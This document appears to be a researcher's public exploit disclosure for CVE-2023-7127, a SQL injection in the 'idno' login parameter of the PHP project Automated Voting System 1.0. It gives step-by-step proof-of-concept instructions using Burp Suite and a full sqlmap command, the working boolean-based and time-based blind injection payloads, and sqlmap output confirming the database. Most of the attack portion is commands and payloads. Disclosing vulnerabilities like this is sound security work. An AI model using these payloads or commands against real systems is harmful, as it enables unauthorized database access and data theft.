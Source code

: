# CVE-2023-7127_Automated_Voting_System-SQL_Injection-2
+ **Exploit Title:** CVE-2023-7127_Automated_Voting_System-SQL_Injection-2
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/automated-voting-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/02/AUTOMATED_VOTING_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2023-7127

## References: 
+ **CVE-2023-7127:** https://vuldb.com/?id.249130
+ https://www.cve.org/CVERecord?id=CVE-2023-7127
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7127

## Description:
Automated Voting System 1.0 allows SQL Injection via parameter 'idno' in "/automated%20voting/". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the voter panel: "http://localhost/automated%20voting/"
+ Fill the voter id and password then click 'Login' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit.
+ In sqlmap, use 'idno' parameter to dump the database. 
```
sqlmap -r r.txt -p idno --risk 3 --level 5 --threads 1 --random-agent tamper=between, randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: MULTIPART idno ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: -----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="idno"

-4883' OR 7870=7870-- eCXU
-----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="password"

pass
-----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="login"


-----------------------------330798109512083143982793838470--

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: -----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="idno"

11111' AND (SELECT 7894 FROM (SELECT(SLEEP(5)))TcOW)-- MvbQ
-----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="password"

pass
-----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="login"


-----------------------------330798109512083143982793838470--
---
[19:31:16] [INFO] testing MySQL
got a 302 redirect to 'http://localhost/automated%20voting/vote.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[19:31:17] [INFO] confirming MySQL
[19:31:18] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[19:31:18] [INFO] fetching current database
[19:31:18] [INFO] resumed: voting
current database: 'voting'
```

+ current database: `voting`
![02](https://github.com/h4md153v63n/CVEs/assets/5091265/abe5fcf0-759b-470b-866c-6a546f8fb824)
